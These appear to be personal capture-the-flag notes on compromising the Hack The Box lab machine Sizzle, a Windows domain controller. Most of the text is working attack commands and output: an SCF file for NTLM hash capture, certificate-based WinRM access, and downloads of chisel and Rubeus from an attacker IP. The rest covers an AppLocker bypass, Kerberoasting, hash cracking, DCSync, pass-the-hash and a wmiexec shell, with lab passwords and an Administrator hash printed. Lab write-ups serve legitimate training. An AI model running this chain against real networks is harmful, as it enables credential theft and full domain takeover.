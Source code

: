 # https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html
### No empty lines
https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html#smb---tcp-445

```bash
cat * | xxd | grep -v "0000 0000 0000 0000 0000 0000 0000 0000"
```

### smbcacls on mount
```bash
smbcacls -N '//10.129.230.198/Department Shares' Users

# mount it
sudo mount -t cifs //10.129.230.198/Department\ Shares /mnt

for i in $(ls); do echo $i; smbcacls -N '//10.129.230.198/Department Shares' $i; done
```

```bash
❯ smbcacls -N '//10.129.230.198/Department Shares' Users/Public
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/OI|CI/FULL # <--- write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or shells
```

### SMB Share – SCF File Attacks
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

```text
[Shell]
Command=2
IconFile=\\10.10.17.120\alvin.ico
[Taskbar]
Command=ToggleDesktop
```

```bash
sudo responder -I tun0 -v
```

Grab the hash and crack it to get credentials

### /certsrv/ (Status: 401); feroxbuster won't miss it by default
```bash
gobuster -k -u https://10.10.10.103 -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt -t 20 -s 200,204,301,302,307,403,401
```

AMANDA:Ashare1972

### Sign CSR for winrm
##### One way..
```bash
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```
##### ..or the other since `.crt` and `.cer` are interchangeable
https://github.com/A1vinSmith/OSCP-PWK/wiki/Crack-Hash
```bash
openssl genrsa -aes256 -out enox.key 2048
openssl req -new -key enox.key -out enox.csr

evil-winrm -i 10.129.230.198 -S -c enox.cer -k enox.key
```

# Foothold
### Lateral movement amanda -> mrlky
```
*Evil-WinRM* PS C:\Users\amanda\Desktop> dir
*Evil-WinRM* PS C:\Users\amanda\Desktop> netstat -ap tcp
```
### Kerberoasting as port 88 didn't show up in nmap
##### domain htb.local from nmap scan
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py htb.local/amanda:Ashare1972 -request -dc-ip $IP
```
it failed as it requires the pivoting first.
### Blocked
`certutil -urlcache -f http://10.10.16.9/chisel chisel`

### Bypass AppBlocker with `IWR`
```bash
IWR http://10.10.16.9/chisel -OutFile chisel.exe
chisel server -p 8008 --reverse
.\chisel.exe client 10.10.16.9:8008 R:88:127.0.0.1:88 R:389:localhost:389
```

### Try it from windows with mimikatz, powerview or Rubeus
`evil-winrm` upload failed just like `certutil`
```
*Evil-WinRM* PS C:\windows\temp> upload /home/alvin/Downloads/Binaries/Rubeus.exe 
Info: Uploading /home/alvin/Downloads/Binaries/Rubeus.exe to C:\windows\temp\Rubeus.exe
```
```
*Evil-WinRM* PS C:\Users\amanda> IWR http://10.10.16.13/Rubeus.exe -OutFile Rubeus.exe
```

##### Rubeus with creds
```
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```
Program 'Rubeus.exe' failed to run: This program is blocked by group policy.

##### Tricky thing here. Have to use `windows\temp` that AppLocaker isn't restricing even you can't run `dir` to check what's in there.
```
*Evil-WinRM* PS C:\windows\temp> .\Rubeus.exe kerberoast /stats
.\Rubeus.exe kerberoast /nowrap
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```

### Crack hash
`hashcat -m 13100 --force -a 0 hash /usr/share/wordlists/rockyou.txt`
mrlky:Football#7

##### Sign csr for mrlky again
```bash
openssl req -newkey rsa:2048 -nodes -keyout mrlky.key -out mrlky.csr

evil-winrm -i $IP -S -k mrlky.key -c certnew.cer
```

# Privilege Escalation
### Enum with bloodhound or powerview
Look into the Outbound Object Control. mrlky has the DS-Replication-Get-Changes-All(GetChangesAll) privilege.

### DCSync
##### linux doesn't require pivoting here since it's not Kerberoasting in 88
```bash
❯ impacket-secretsdump -just-dc mrlky:Football#7@$IP

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
```

##### check that hash's ablity using crackmapexec
`crackmapexec winrm $IP -u administrator -H f6b7160bfc91823792e0ac3a162c9267`
```
❯ crackmapexec smb $IP -u administrator -H f6b7160bfc91823792e0ac3a162c9267
SMB         10.129.114.166  445    SIZZLE           [*] Windows 10.0 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.114.166  445    SIZZLE           [+] HTB.LOCAL\administrator:f6b7160bfc91823792e0ac3a162c9267 (Pwn3d!)
```
```
❯ crackmapexec winrm $IP -u administrator -H f6b7160bfc91823792e0ac3a162c9267
SMB         10.129.114.166  5986   SIZZLE           [*] Windows 10.0 Build 14393 (name:SIZZLE) (domain:HTB.LOCAL)
HTTP        10.129.114.166  5986   SIZZLE           [*] https://10.129.114.166:5986/wsman
WINRM       10.129.114.166  5986   SIZZLE           [-] HTB.LOCAL\administrator:f6b7160bfc91823792e0ac3a162c9267 "The server did not response with one of the following authentication methods Negotiate, Kerberos, NTLM - actual: ''"
```
The evil-winrm won't work here. Need alternatives instead.
Impacket psexec.py should work, but it doesn't.

##### Root
```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 Administrator@$IP
```